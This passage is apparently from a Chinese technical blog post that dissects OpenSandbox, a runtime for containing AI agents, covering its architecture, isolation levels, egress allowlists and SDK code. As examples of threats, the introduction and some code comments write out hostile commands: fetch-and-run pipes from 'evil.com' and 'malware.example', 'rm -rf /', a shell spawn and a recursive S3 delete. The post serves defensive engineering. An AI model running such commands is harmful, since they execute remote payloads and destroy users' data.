





> **一个被绝大多数 Harness 横评忽略的事实**：当 Claude Code 在你电脑上执行 `pip install`、`curl evil.com | bash`、`rm -rf /` 时，能拦住它作恶的**不是规则文件、不是 Skill、也不是 Hook**——是**沙箱运行时**。而这件事的工业级实现，就是 [`opensandbox-group/OpenSandbox`](https://github.com/opensandbox-group/OpenSandbox)——12.1k⭐、**CNCF Landscape 编排管理唯一入选的 AI 沙箱**、**OpenSSF Best Practices 三星认证**、Apache-2.0 协议下的多语言 SDK（Python / Java / JavaScript / Go / C#）+ Docker + Kubernetes 双 backend。本文不是 README 翻译，而是从源码拆它怎么用 **6 层表面** 把 LLM 调用方、协议、控制面、Runtime 后端、数据面、网络/安全面拆开，怎么用 **5 个隔离层级**（容器 / execd / bwrap isolation session / egress sidecar / gVisor・Kata）从粗到细匹配威胁模型，以及为什么"沙箱"是 Harness Engineering 在 6 件套之外最被低估的第 7 件套。

## 前言：Harness 写规则、写 Skill、写 Sub-Agent，但**漏掉了脚本被执行的那一刻**

过去 30 天我把 Harness 6 件套（Rule / Skill / Sub-Agent / Workflow / Script / MCP）和一批标杆 Harness（Claude Code、Trellis、DeepAgents、`aden-hive`、OpenHarness、Plano、`jcode`、`spec-kit`、`browser-use`、`oh-my-openagent`、`dapr-agents`、Helicone、ECC、Dapr）都拆了一遍。每一个项目都在解决同一个问题：**让 LLM 变得更可靠、更可控、更可预测**。

但**有一个盲区，是所有人都默契绕开的**：当 LLM（或被它编排的 Sub-Agent）决定执行 `rm -rf /data`、`curl https://malware.example/payload | bash`、`pip install typosquatted-pkg`、`python -c "import os; os.execv('/bin/sh', ['sh'])"` 时——**这一刻究竟由谁在物理世界挡刀？**

| 现状 | 失效模式 |
|---|---|
| **Rule**（CLAUDE.md / `agents-md`） | 文本指令，模型愿意遵守就遵守，不想遵守就"忘了"——**没有强制力** |
| **Skill**（SKILL.md） | 把 SOP 装进 system prompt，本质还是 prompt 级约束 |
| **Sub-Agent**（OpenHands、AutoGen） | 把权限切给子 agent，但子 agent **仍在宿主机上跑命令**，危险系数反而放大 |
| **Workflow**（LangGraph） | 只是状态机抽象，不能阻止 shell 跑到危险文件系统路径 |
| **Script**（pre-commit hook、lint） | 只能在 commit 时生效，**Sub-Agent 在工作目录之外的 rm 不归它管** |
| **MCP**（Tool 暴露） | 把工具暴露给 Agent，但**工具本身仍是裸 syscall**——Agent 有 AWS access_key 直接调 `aws s3 rm --recursive` 时 MCP Server 拦不住 |

**真正"在物理世界划红线"的组件只有一个：沙箱。**

它做的是 Hostile Environment Containment（hostile 算子执行）——把 LLM 产生的副作用局限在一个**可销毁、可观测、可回滚、可重放、可审计**的执行单元里：

- **可销毁**：5 GB 内存限制 + 5 分钟超时 = 跑超了自动炸
- **可观测**：CPU / 内存 / 网络包级 metrics 实时上报
- **可回滚**：rootfs 快照 + 镜像回放（pause/resume）
- **可重放**：会话级 snapshot + command log 还原整条推理链
- **可审计**：`reason` / `message` / `request_id` 全链路追踪

OpenSandbox 是当前 **CNCF Landscape 上唯一的"通用 AI 沙箱运行时"**——不是某个 Agent 框架的附属模块，而是一个**协议 + Server + SDK + Runtime 后端 + 数据面 + 网络安全面**完整成型的、可以被任何 Harness 接管的横切层。

下面从源码逐层拆开。

---

## 一、定位：Harness 的"物理执行者"层

### 1.1 为什么 Harness 必须有第 7 件套？

先看 README 第一段就知道它在做什么：

> OpenSandbox is a **general-purpose sandbox platform** for AI applications, offering multi-language SDKs, unified sandbox APIs, and Docker/Kubernetes runtimes for scenarios like **Coding Agents, GUI Agents, Agent Evaluation, AI Code Execution, and RL Training**.

关键词是 **"general-purpose"** 和 **"Coding Agents / GUI Agents"**。

这意味着 OpenSandbox **不是 Agent 框架，而是 Agent 的"执行容器"**。它在 Harness 6 件套里**没有直接对应组件**——它更像一个**横切层（cross-cutting concern）**：



注意 **OpenSandbox 跟 6 件套的关系不是上下级，是横切**：
- Rule 写在 Markdown 里——**装不进去 sandbox**
- Skill 是 system prompt 段落——**装不进去 sandbox**
- 但所有规则、Skill、Sub-Agent、Workflow 产生的**副作用**（read file、write file、run shell、http call）都经过 OpenSandbox 这层

### 1.2 调研快照（2026-07-26）

| 维度 | 数值 | 来源 |
|---|---|---|
| ⭐ Stars | **12,166** | `GET /repos/opensandbox-group/OpenSandbox` |
| 📦 默认分支 | `main` | Repo API |
| 🛠️ 主语言 | Python (52%) + Go (29%) + TypeScript | Repo API |
| 📜 许可证 | Apache-2.0 | Repo API |
| 🏛️ CNCF Landscape | ✅ 编排管理入选 | 官方 badge |
| 🛡️ OpenSSF Best Practices | ✅ 三星 | 官方 badge |
| 🌍 支持语言 | Python / Java / JS / Go / C# / Kotlin | `sdks/` 5 个目录 |
| 📦 crates.io/pkg | 1 个 server + 4 SDK + 1 CLI + 1 MCP | `pyproject.toml` + `package.json` |
| 📅 最近 commit | 2026-07-24 | Repo API |
| 📐 仓库大小 | 91 MB | Repo API |
| 🧩 K8s CRD | `BatchSandbox` / `Pool` / `SandboxSnapshot` | `kubernetes/` 目录 |
| 🔒 强隔离 backend | gVisor / Kata Containers / Firecracker | `docs/guides/secure-container.md` |
| 🌐 DNS egress 模式 | DNS / DNS+nft（含 NFT 强制） | `components/egress` |

**关键事实**：OpenSandbox 是 **CNCF Landscape** 上 `orchestration-management--scheduling-orchestration` 类目里**唯一**的 AI 沙箱——这意味着它**默认就是云原生生态的"事实边界"**。

---

## 二、架构：6 个"表面" + 5 个"隔离层级"

### 2.1 六层"表面"分治

OpenSandbox 在 `docs/architecture/index.md` 里明确把系统拆成 **6 个表面**，这个切法本身就是一个"机制 vs 策略"的工程示范：

```mermaid
graph TB
    subgraph "1️⃣ Client Surface 客户端面"
        SDK["🧩 Multi-Language SDKs<br/>Python/Java/JS/Go/C#"]
        CLI["⌨️ osb CLI<br/>sandbox/command/file/egress/skills"]
        MCP["🔌 MCP Server<br/>sdks/mcp/sandbox/python"]
    end

    subgraph "2️⃣ Protocol Surface 协议面"
        SPEC1["📜 specs/sandbox-lifecycle.yml<br/>/v1/sandboxes/*"]
        SPEC2["📜 specs/execd-api.yaml<br/>/command /files /session /pty"]
        SPEC3["📜 specs/egress-api.yaml<br/>/policy GET/PATCH"]
        SPEC4["📜 specs/diagnostic-api.yml<br/>logs + events"]
    end

    subgraph "3️⃣ Control Plane 控制面"
        SERVER["🛰️ FastAPI Lifecycle Server<br/>server/opensandbox_server"]
        AUTH["🔑 API Key Middleware"]
        STORE["💾 SQLite 持久化<br/>(snapshot metadata)"]
    end

    subgraph "4️⃣ Runtime Backends 运行时后端"
        DOCKER["🐳 Docker Runtime<br/>单主机 / 开发"]
        K8S_BATCH["☸️ BatchSandbox CRD<br/>高并发批量"]
        K8S_AGENT["☸️ agent-sandbox CRD<br/>(k8s-sigs/agent-sandbox)"]
    end

    subgraph "5️⃣ Sandbox Data Plane 数据面"
        EXECD["⚙️ execd Daemon (Go + Gin)<br/>沙箱内的执行 API"]
        JUPYTER["🐍 Jupyter Kernel"]
        VOL["💽 Volumes<br/>host / pvc / ossfs"]
    end

    subgraph "6️⃣ Network & Security Plane 网络/安全面"
        INGRESS["🚪 Ingress Gateway<br/>HTTP/WS 路由"]
        EGRESS["🚧 Egress Sidecar<br/>DNS / DNS+nft"]
        CREDS["🔐 Credential Vault<br/>透明 HTTPS MITM 注入"]
        SEC["🛡️ gVisor / Kata / Firecracker<br/>用户态内核 / 微 VM"]
    end

    SDK --> SERVER
    CLI --> SERVER
    MCP --> SERVER
    SERVER --> SPEC1
    SERVER --> DOCKER
    SERVER --> K8S_BATCH
    SERVER --> K8S_AGENT
    DOCKER --> EXECD
    K8S_BATCH --> EXECD
    K8S_AGENT --> EXECD
    EGRESS -. "DNS+nft 拦截" .-> EXECD
    INGRESS -. "HTTP/WS 转发" .-> EXECD
    CREDS -. "透明 MITM 注入 auth header" .-> EGRESS
    SEC -. "用户态内核包裹" .-> DOCKER

    style SDK fill:#C7CEEA,stroke:#9FA8DA,color:#333
    style CLI fill:#C7CEEA,stroke:#9FA8DA,color:#333
    style MCP fill:#C7CEEA,stroke:#9FA8DA,color:#333
    style SPEC1 fill:#E8D5F5,stroke:#CE93D8,color:#333
    style SPEC2 fill:#E8D5F5,stroke:#CE93D8,color:#333
    style SPEC3 fill:#E8D5F5,stroke:#CE93D8,color:#333
    style SPEC4 fill:#E8D5F5,stroke:#CE93D8,color:#333
    style SERVER fill:#FFDAB9,stroke:#FFAB76,color:#333
    style AUTH fill:#FFDAB9,stroke:#FFAB76,color:#333
    style STORE fill:#FFDAB9,stroke:#FFAB76,color:#333
    style DOCKER fill:#B5EAD7,stroke:#80CBC4,color:#333
    style K8S_BATCH fill:#B5EAD7,stroke:#80CBC4,color:#333
    style K8S_AGENT fill:#B5EAD7,stroke:#80CBC4,color:#333
    style EXECD fill:#FFB3C6,stroke:#F48FB1,color:#333
    style JUPYTER fill:#FFB3C6,stroke:#F48FB1,color:#333
    style VOL fill:#FFB3C6,stroke:#F48FB1,color:#333
    style INGRESS fill:#E8D5F5,stroke:#CE93D8,color:#333
    style EGRESS fill:#FFB3C6,stroke:#F48FB1,color:#333
    style CREDS fill:#FFB3C6,stroke:#F48FB1,color:#333
    style SEC fill:#FFF9C4,stroke:#F9A825,color:#333
```



**为什么这 6 层切法特别牛**：

| 分层 | 负责什么 | 谁不能管的事 |
|---|---|---|
| **客户端面** | 给开发者打交道的入口 | 不能改 Runtime 后端实现 |
| **协议面** | OpenAPI 单一真源（specs/） | 不能直接调执行 API |
| **控制面** | 鉴权 / 编排 / 持久化 | 不能执行 in-sandbox 操作 |
| **Runtime 后端** | Docker/K8s 资源创建 | 不能写文件 |
| **数据面** | execd 文件 / 命令 / 代码 | 不能改 lifecycle API |
| **网络安全面** | DNS / nft / MITM / 用户态内核 | 不能改业务逻辑 |

**机制 vs 策略分离的极致体现**：协议面是机制（"怎么签合同"），客户端面是策略（"用什么语言开发"），数据面是机制（"shell 怎么跑"），网络安全面是策略（"放行哪些域名"）——每一层都能独立替换。

### 2.2 五个隔离层级（威胁模型的尺寸选择）

OpenSandbox 不是只有一个隔离强度——它**层叠了 5 个**，每个对应不同成本和威胁模型：



| 层级 | 隔离强度 | 启动耗时 | 单容器多租户 | 典型场景 |
|---|---|---|---|---|
| **L1 Container** | 中（共享内核） | 100s ms | ❌ 一个容器一个 sandbox | Claude Code / 一般 Coding Agent |
| **L2 execd Daemon** | 在 L1 基础上加 API 鉴权 + 网络隔离（egress sidecar） | 跟随容器 | ❌ | Code Interpreter / MCP Server |
| **L3 bwrap Session** | 同容器内 **PID/mount/tmpfs/net 命名空间** | **~100ms** | ✅ **一容器多 session** | RL rollouts / 批量代码评测 |
| **L4 gVisor/Kata** | **用户态内核 / 微 VM**（防容器逃逸） | 10-500ms | ❌ | 多租户 SaaS / 金融 / 政务 |

**关键洞察**：L3 是 OpenSandbox 真正的"**同容器多任务**"杀手锏——一个 sandbox pod 里可以塞 **N 个互相隔离的 bash session**（每个 session 是独立 PID/mount 命名空间），适合 RL rollout（一次起 100 sandbox，每个跑 1000 episode，**不需要 100×1000 = 10万次容器调度**）。

### 2.3 协议驱动 vs 代码驱动：设计哲学

OpenSandbox 在 README 第二段就开始讲设计哲学，对比 Claude Code/Trellis/DeepAgents 这类"代码驱动的 Harness"它有显著差异：

| 维度 | OpenSandbox（**协议驱动**） | Claude Code（代码驱动） |
|---|---|---|
| **接口契约** | OpenAPI 单一真源（`specs/*.yml`） | 一段 TypeScript class |
| **新增语言 SDK** | 调 OpenAPI generator 重新生成 | 手写一遍 |
| **改字段语义** | 改 `specs/`，5 个语言 SDK 同步生效 | 改一语言 SDK，其他语言需手动同步 |
| **跨进程调用** | HTTP/REST + SSE stream | 自定义 JSON-RPC |

**Bitter Lesson 检验**：OpenSandbox 写了多少"聪明但终将被淘汰"的代码？

- ✅ **极少量**：egress sidecar 的 `dns+nft`、bwrap session 封装、Credential Vault 的 MITM，这些都是**纯机制层面**——协议升级时可以换实现，接口不变。
- ❌ **有一些**：早期 `execd` 的 shell session token 检查逻辑（在 `X-EXECD-ACCESS-TOKEN` 头部里 hash token），但这个**已经收敛到 middleware**，未来可用 mTLS 替代。

整体来看 OpenSandbox 偏**机制派**——绝大多数智能留给上层 Harness（Rule/Skill/Sub-Agent 在 LLM 端做），沙箱本身只做"划红线 + 给出口"。

---

## 三、核心机制深度拆解（**含 5 段可运行代码**）

### 3.1 机制 1：Lifecycle 控制面的 `POST /v1/sandboxes`

**这是 OpenSandbox 的入口**，也是 Harness 跟它打交道的"唯一正式 API"。

源码摘录（`sdks/sandbox/python/src/opensandbox/sandbox.py`，**只保留 create 核心链路**）：

```python
@classmethod
async def create(
    cls,
    image: SandboxImageSpec | str | None = None,
    *,
    snapshot_id: str | None = None,
    timeout: timedelta | None = timedelta(minutes=10),
    ready_timeout: timedelta = timedelta(seconds=30),
    env: dict[str, str] | None = None,
    resource: dict[str, str] | None = None,
    network_policy: "NetworkPolicy | None" = None,
    credential_proxy: "CredentialProxyConfig | None" = None,
    entrypoint: list[str] | None = None,
    # ... 省略 extensions / volumes / secure_access
) -> "Sandbox":
    # 1. 入口校验：image XOR snapshot_id
    if (image is None) == (snapshot_id is None):
        raise InvalidArgumentException(
            "Exactly one of image or snapshot_id must be specified"
        )

    config = (connection_config or ConnectionConfig()).with_transport_if_missing()
    entrypoint = entrypoint or ["tail", "-f", "/dev/null"]   # 默认占位
    env = env or {}
    resource = resource or {"cpu": "1", "memory": "2Gi"}      # 默认 1 CPU + 2 GiB

    # 2. 通过 AdapterFactory 拿到服务层引用
    factory = AdapterFactory(config)
    sandbox_service = factory.create_sandbox_service()

    # 3. 调 Lifecycle API（FastAPI 服务，POST /v1/sandboxes）
    response = await sandbox_service.create_sandbox(
        spec=image, entrypoint=entrypoint, env=env,
        metadata=metadata, timeout=timeout, resource=resource,
        network_policy=network_policy,                     # ← 关键：传 egress policy
        credential_proxy=credential_proxy,                 # ← 关键：传 Credential Vault 配置
        # ...
    )
    sandbox_id = response.id

    # 4. 拿到 execd 端点（in-sandbox 执行 daemon）
    execd_endpoint = await sandbox_service.get_sandbox_endpoint(
        response.id, DEFAULT_EXECD_PORT, config.use_server_proxy
    )
    # DEFAULT_EXECD_PORT = 44772（来自 constants.py）

    # 5. 拿到 egress 端点（出网策略 sidecar）
    egress_endpoint = await sandbox_service.get_sandbox_endpoint(
        response.id, DEFAULT_EGRESS_PORT, config.use_server_proxy
    )
    # DEFAULT_EGRESS_PORT = 18080

    # 6. 把 service 端点装配成 Sandbox 对象
    sandbox = cls(
        sandbox_id=response.id,
        sandbox_service=sandbox_service,
        filesystem_service=factory.create_filesystem_service(execd_endpoint),
        command_service=factory.create_command_service(execd_endpoint),
        health_service=factory.create_health_service(execd_endpoint),
        metrics_service=factory.create_metrics_service(execd_endpoint),
        egress_service=factory.create_egress_service(egress_endpoint),
        diagnostics_service=factory.create_diagnostics_service(),
        isolated_service=factory.create_isolated_session_service(execd_endpoint),
        connection_config=config,
    )

    # 7. 健康检查（轮询 ping，超时则 raise SandboxReadyTimeoutException）
    if not skip_health_check:
        await sandbox.check_ready(ready_timeout, health_check_polling_interval)

    # 8. 异步上报 SDK 侧创建耗时 metrics（fire-and-forget）
    report_sandbox_create_metric(
        config, sandbox_id=sandbox.id, image=startup_source,
        create_duration_ms=int((time.monotonic() - create_started) * 1000),
        success=True,
    )

    return sandbox
```

**这段代码里的 4 个工程亮点**：

1. **image XOR snapshot_id 互斥校验**——避免"Lottie 重放"出错（旧 prompt 创建新 sandbox 还是起旧 snapshot？）
2. **DEFAULT_EXECD_PORT = 44772 + DEFAULT_EGRESS_PORT = 18080**——execd 和 egress 的端口固化在源码常量里，避免每个用户自己猜
3. **`use_server_proxy` 双模式**——直连沙箱（如本地 Docker）vs 走 Server 代理（如 K8s 集群外访问）共用一套 endpoint resolve 逻辑
4. **fire-and-forget 上报 metrics**——`report_sandbox_create_metric` 内部用 `asyncio.create_task` 但**保留 strong ref 防止 GC**（`_pending: set[asyncio.Task] = set()`），保证 SDK 在 Sandbox 创建后**永不阻塞**

**可运行代码 1**：从零创建一个 Python sandbox 并执行 shell

```python
import asyncio
from datetime import timedelta
from opensandbox import Sandbox
from opensandbox.models.sandboxes import SandboxImageSpec

async def main():
    sandbox = await Sandbox.create(
        "python:3.11",
        resource={"cpu": "1", "memory": "500Mi"},
        timeout=timedelta(minutes=5),
    )
    try:
        # 写文件
        await sandbox.files.write_file("/tmp/hello.py", "print('Hello OpenSandbox!')")

        # 跑命令（stream 输出）
        execution = await sandbox.commands.run("python /tmp/hello.py")
        print("stdout:", execution.logs.stdout[0].text)
        # → stdout: Hello OpenSandbox!

        # 看 metrics（CPU / 内存）
        metrics = await sandbox.get_metrics()
        print(f"cpu={metrics.cpu_usage_percent} mem={metrics.memory_usage_bytes}")
    finally:
        await sandbox.destroy()    # kill + close（best-effort 永不让异常吞掉 remote kill）

asyncio.run(main())
```

**关键前提**：

- 需要 `pip install opensandbox` + Docker daemon 在线
- Server 端是 `uvx opensandbox-server init-config ~/.sandbox.toml --example docker && uvx opensandbox-server`
- 默认 sandbox 不带 egress policy——出网完全开放；要限制见下一段

### 3.2 机制 2：Egress Policy——**最被低估的"Agent 安全护栏"**

`docs/architecture/network-isolation.md` 的第一句话就点破了 Kubernetes NetworkPolicy 的局限：

> On a Kubernetes cluster, each OpenSandbox sandbox runs as an independent Pod with a dedicated Pod IP assigned by the CNI plugin. By default, any sandbox can reach other sandboxes in the same cluster directly via Pod IP. This introduces several security risks.

为什么不用 K8s NetworkPolicy？官方文档列了 4 个原因：

1. **Pod label 不可控** —— sandbox pod 的 label 由平台注入，跨租户 sandbox 可能同 label
2. **生命周期太短** —— NetworkPolicy 是静态声明，跟不上 sandbox 创建/销毁
3. **粒度不对** —— NetworkPolicy 控 Pod 集合，sandbox 需要"每个独立"的边界
4. **出站控不住** —— NetworkPolicy Ingress 规则能拦入站，但**阻止 sandbox 主动 curl 其他 pod IP 需要双向 NetworkPolicy，又回到上面 3 个问题**

**OpenSandbox 的解法**：把网络控制点放在**沙箱内部的 egress sidecar**，不靠集群网络层。

数据模型（`sdks/sandbox/python/src/opensandbox/models/sandboxes.py`）：

```python
class NetworkRule(BaseModel):
    """Egress rule for matching network targets."""
    action: Literal["allow", "deny"] = Field(
        description='Whether to allow or deny matching targets. One of "allow" or "deny".'
    )
    target: str = Field(
        description='FQDN or wildcard domain (e.g., "example.com", "*.example.com").'
    )

class NetworkPolicy(BaseModel):
    """Egress network policy matching the sidecar /policy request body."""
    default_action: Literal["allow", "deny"] | None = Field(
        default="deny",                       # ← 默认 deny-by-default
        description='Default action when no rule matches. Defaults to "deny".',
        alias="defaultAction",
    )
    egress: list[NetworkRule] | None = Field(
        default=None, description="List of egress rules evaluated in order."
    )
```

**最有趣的设计**：`default_action="deny"`（默认拒绝）——这跟传统 WAF 思路**相反**。理由是：sandbox 里的代码（哪怕是 LLM 生成）**不应该有"任何域名都能访问"的隐式信任**，必须显式 allowlist。

**保护层 2：deny.always 全局硬约束**

在集群运维侧，可以用 `deny.always` **绕过 SDK 修改**——`docs/architecture/network-isolation.md` 给出了实际 Go 代码：

```go
// components/egress/pkg/policy/always_rules.go
func MergeAlwaysOverlay(user *NetworkPolicy, alwaysDeny, alwaysAllow []EgressRule) *NetworkPolicy {
    // alwaysDeny is prepended so it matches first, achieving unconditional denial
    merged = append(merged, alwaysDeny...)   // ← 永远最高优先级
    merged = append(merged, alwaysAllow...)
    merged = append(merged, out.Egress...)   // ← 用户规则最后
}
```

**这个 `MergeAlwaysOverlay` 模式是 Harness Engineering 的经典套路**——把"管理员硬约束"放最前，"用户 runtime 修改"放最后，**任何 API 调用（包括伪造 admin 身份的）都无法覆盖 always-deny**。

**可运行代码 2**：创建一个只能访问 pypi.org 的 Python sandbox

```python
import asyncio
from datetime import timedelta
from opensandbox import Sandbox
from opensandbox.models.sandboxes import NetworkPolicy, NetworkRule

async def main():
    # 显式 allow pypi + PyPI 镜像 + github（pip install 需要）
    network_policy = NetworkPolicy(
        default_action="deny",   # 其他全部拒绝
        egress=[
            NetworkRule(action="allow", target="pypi.org"),
            NetworkRule(action="allow", target="*.pypi.org"),
            NetworkRule(action="allow", target="files.pythonhosted.org"),
            NetworkRule(action="allow", target="github.com"),
            NetworkRule(action="allow", target="*.github.com"),
        ],
    )

    sandbox = await Sandbox.create(
        "python:3.11",
        resource={"cpu": "1", "memory": "1Gi"},
        timeout=timedelta(minutes=10),
        network_policy=network_policy,
    )
    try:
        # 此时 sandbox 里只能访问 pypi.org / github.com
        # curl https://example.com → 被 egress sidecar 拒绝
        # curl https://evil.com/payload.sh → 被拒绝
        result = await sandbox.commands.run(
            "curl -sS -o /dev/null -w '%{http_code}\\n' https://example.com"
        )
        print(result.logs.stdout[0].text)   # → "000" (curl 拒绝连接)
    finally:
        await sandbox.destroy()

asyncio.run(main())
```

**关键设计**：

- `default_action="deny"` + 显式 allowlist = **default-deny 安全模型**
- FQDN 匹配（不是 IP CIDR）—— 因为 DNS rebinding 攻击可以绕过 IP allowlist
- **`dns+nft` 模式**：不仅拦 DNS 还用 nftables 强制 IP 层规则，防止 sandbox 用 `getent hosts pypi.org` 后**直连 IP** 绕过 DNS 策略

### 3.3 机制 3：Isolation Session（bwrap 多租户）—— **RL rollout 专用**

`docs/guides/isolation-sessions.md` 描述了一个 OpenSandbox **独有的杀手特性**：

> Isolation sessions run a long-lived `bash` inside a [bubblewrap](https://github.com/containers/bubblewrap) namespace, so one sandbox pod can host many mutually isolated task runs without spinning up a new container. Each session gets its own PID, mount, tmpfs, and env namespaces; **startup is sub-millisecond**.



**两层 namespace 隔离对比表**：

| 维度 | L1 容器隔离 | L3 bwrap Session 隔离 |
|---|---|---|
| **范围** | 一个进程一个容器 | 一个容器内 N 个 bash |
| **启动耗时** | 100s ms | **~100ms** |
| **内存开销** | 50-200 MB × N | **共享容器内存** |
| **PID 隔离** | ✅ | ✅ |
| **Mount 隔离** | ✅（rootfs） | ✅（tmpfs，可选 bind mount） |
| **NET 隔离** | ✅（veth/bridge） | ✅（可设 `share_net=True` 共享 / 全独立） |
| **适合场景** | Coding Agent / 通用 sandbox | RL rollout / 批量评测 / 多任务并行 |

**SDK 代码摘录**（`sdks/sandbox/python/src/opensandbox/services/isolated.py`）：

```python
class IsolationService(Protocol):
    """Service for managing namespace-isolated bash sessions."""

    async def create(self, request: CreateIsolatedSessionRequest) -> IsolationSession: ...

    async def attach(self, session_id: str) -> IsolationSession:
        """Rebuild a session handle from an existing session_id.

        Fetches the current session state from execd and returns the same
        handle type as :meth:`create`. Useful for stateless callers (e.g.
        serverless workers restarted mid-flight) that only have a session ID.

        When the execd side echoes the creation-parameter fields (``profile``,
        ``workspace``, ``binds`` etc.), they populate ``handle.info``. Older
        execd builds omit these fields; ``handle.info`` then only carries the
        session ID (creation-parameter fields are ``None``) but ``run``/``get``/
        ``delete``/``files`` still work because they only need the session ID.

        Raises the SDK's standard not-found error when the session does not
        exist on execd.
        """
        ...

    async def run_once(
        self,
        code: str,
        *,
        workspace: str,
        workspace_mode: str | None = None,
        opts: IsolatedRunOpts | None = None,
        # ...
    ) -> Execution:
        """Create a session, run *code*, and delete the session (auto-cleanup)."""
        ...
```

**`run_once`** 是最常用的简写——一次性创建 session + run + delete。适合 RL 训练里"一次函数调用 = 一次 episode"。

**可运行代码 3**：用 isolation session 跑 100 个隔离 bash 实例

```python
import asyncio
from opensandbox import Sandbox
from opensandbox.models.isolated import IsolatedWorkspaceSpec

async def main():
    # 1. 起一个 sandbox
    sandbox = await Sandbox.create("python:3.11", timeout=60)
    try:
        # 2. 并发跑 100 个隔离 bash session（共享一个容器！）
        async def run_episode(i: int):
            result = await sandbox.isolation.run_once(
                code=f"echo 'Episode {i}: ' && python -c 'import random; print(random.random())'",
                workspace=f"/tmp/episode_{i}",
                workspace_mode="rw",  # 读写 tmpfs
            )
            return result.logs.stdout[0].text

        # 3. asyncio.gather 起 100 个
